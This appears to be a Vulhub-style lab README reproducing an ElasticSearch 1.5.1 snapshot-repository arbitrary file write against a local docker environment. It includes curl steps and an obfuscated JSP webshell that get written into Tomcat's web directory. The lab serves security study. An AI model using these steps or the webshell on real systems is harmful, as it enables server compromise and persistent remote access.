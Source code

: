 # ElasticSearch Arbitrary File Upload (WooYun-2015-110216)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

A vulnerability in ElasticSearch's backup functionality allows attackers to write arbitrary files to the filesystem, potentially leading to webshell upload when combined with other web services.

ElasticSearch includes a data backup feature that allows users to specify a path where backup data will be stored. Both the path and file names are controllable by the user.

If other web services (like Tomcat, PHP, etc.) are running on the same system, an attacker can exploit ElasticSearch's backup functionality to write a webshell to a web-accessible directory.

Similar to [CVE-2015-5531](../CVE-2015-5531/), this vulnerability is related to the backup repository functionality. In ElasticSearch versions after 1.5.1, the root path of backup repositories is restricted to the `path.repo` configuration option. If administrators don't configure this option, the backup functionality is disabled by default. Even if configured, writing a webshell is only possible if the web root is within the configured directory.

References:

- <http://cb.drops.wiki/bugs/wooyun-2015-0110216.html>

## Environment Setup

Execute the following commands to start a ElasticSearch server 1.5.1, and a Tomcat server is running on the same container:

```
docker compose up -d
```

After the environment starts, you can access the ElasticSearch server at `http://your-ip:9200`, and the Tomcat server at `http://your-ip:8080`.

Tomcat is installed in `/usr/local/tomcat` with its web directory at `/usr/local/tomcat/webapps`. ElasticSearch is installed in `/usr/share/elasticsearch`.

## Vulnerability Reproduction

Our goal is to use ElasticSearch to write a webshell into `/usr/local/tomcat/webapps`.

First, create a malicious index document:

```
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

Then create a malicious repository. The `location` value is the path where we want to write our file.

> Note: The Repositories path is interesting because it can write to any accessible location, and if the path doesn't exist, it will be created automatically. This means you can create arbitrary directories using the file access protocol. Here we point the path to Tomcat's web deployment directory because Tomcat will automatically create a new application when a folder is created in this directory (if the filename is wwwroot, the created application name will be wwwroot).

```
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

Verify and create the repository:

```
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

Done!

Access `http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp` to find our uploaded webshell.

This shell allows writing arbitrary strings to test.jsp in the wwwroot directory. For example: `http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`. Then accessing /wwwroot/test.jsp will show "success":

![](1.png)
